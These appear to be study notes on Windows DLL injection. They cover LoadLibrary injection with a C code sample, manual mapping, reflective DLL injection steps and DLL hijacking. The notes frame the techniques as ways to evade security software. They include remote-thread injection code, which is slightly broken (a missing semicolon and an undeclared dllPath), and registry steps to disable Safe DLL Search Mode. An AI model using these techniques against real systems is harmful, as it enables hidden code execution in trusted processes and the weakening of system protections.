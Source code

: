 Evades detection by security software.

Inserts malicious code into trusted processes.

## LoadLibrary
```c
#include <windows.h>
#include <stdio.h>

int main() {
    // Using LoadLibrary to load a DLL into the current process
    HMODULE hModule = LoadLibrary("example.dll");
    if (hModule == NULL) {
        printf("Failed to load example.dll\n");
        return -1;
    }
    printf("Successfully loaded example.dll\n");

    return 0;
}
```
- Legitimate loading of dll into current process

```c
#include <windows.h>
#include <stdio.h>

int main() {
    // Using LoadLibrary for DLL injection
    // First, we need to get a handle to the target process
    DWORD targetProcessId = 123456 // The ID of the target process
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetProcessId);
    if (hProcess == NULL) {
        printf("Failed to open target process\n");
        return -1;
    }

    // Next, we need to allocate memory in the target process for the DLL path
    LPVOID dllPathAddressInRemoteMemory = VirtualAllocEx(hProcess, NULL, strlen(dllPath), MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
    if (dllPathAddressInRemoteMemory == NULL) {
        printf("Failed to allocate memory in target process\n");
        return -1;
    }

    // Write the DLL path to the allocated memory in the target process
    BOOL succeededWriting = WriteProcessMemory(hProcess, dllPathAddressInRemoteMemory, dllPath, strlen(dllPath), NULL);
    if (!succeededWriting) {
        printf("Failed to write DLL path to target process\n");
        return -1;
    }

    // Get the address of LoadLibrary in kernel32.dll
    LPVOID loadLibraryAddress = (LPVOID)GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
    if (loadLibraryAddress == NULL) {
        printf("Failed to get address of LoadLibraryA\n");
        return -1;
    }

    // Create a remote thread in the target process that starts at LoadLibrary and points to the DLL path
    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)loadLibraryAddress, dllPathAddressInRemoteMemory, 0, NULL);
    if (hThread == NULL) {
        printf("Failed to create remote thread in target process\n");
        return -1;
    }

    printf("Successfully injected example.dll into target process\n");

    return 0;
}
```
- Use of LoadLibrary for DLL injection

## Manual Mapping
1. Load the DLL as raw data into the injecting process.
2. Map the DLL sections into the targeted process.
3. Inject shellcode into the target process and execute it. This shellcode relocates the DLL, rectifies the imports, executes the Thread Local Storage (TLS) callbacks, and finally calls the DLL main.


## Reflective DLL injection
1. Execution control is transferred to the library's ReflectiveLoader function, an exported function found in the library's export table. This can happen either via CreateRemoteThread() or a minimal bootstrap shellcode.
2. As the library's image currently resides in an arbitrary memory location, the ReflectiveLoader initially calculates its own image's current memory location to parse its own headers for later use.
3. The ReflectiveLoader then parses the host process's kernel32.dll export table to calculate the addresses of three functions needed by the loader, namely LoadLibraryA, GetProcAddress, and VirtualAlloc.
4. The ReflectiveLoader now allocates a continuous memory region where it will proceed to load its own image. The location isn't crucial; the loader will correctly relocate the image later.
5. The library's headers and sections are loaded into their new memory locations.
6. The ReflectiveLoader then processes the newly loaded copy of its image's import table, loading any additional libraries and resolving their respective imported function addresses.
7. The ReflectiveLoader then processes the newly loaded copy of its image's relocation table.
8. The ReflectiveLoader then calls its newly loaded image's entry point function, DllMain, with DLL_PROCESS_ATTACH. The library has now been successfully loaded into memory.
9. Finally, the ReflectiveLoader returns execution to the initial bootstrap shellcode that called it, or if it were called via CreateRemoteThread, the thread would terminate."


 ## DLL Hijacking

The default DLL search order with Safe DLL Search Mode activated has the user's current directory further down in the search order

**Deactivate Safe DLL Search Mode
1. Press Windows key + R to open the Run dialog box.
2. Type in Regedit and press Enter. This will open the Registry Editor.
3. Navigate to HKEY_LOCAL_MACHINE\\SYSTEM\\CurrentControlSet\\Control\\Session Manager.
4. In the right pane, look for the SafeDllSearchMode value. If it does not exist, right-click the blank space of the folder or right-click the Session Manager folder, select New and then DWORD (32-bit) Value. Name this new value as SafeDllSearchMode.
5. Double-click SafeDllSearchMode. In the Value data field, enter 1 to enable and 0 to disable Safe DLL Search Mode.
6. Click OK, close the Registry Editor and Reboot the system for the changes to take effect.

To find what DLLs a process is running use:
- Process Explorer
- PE Explorer

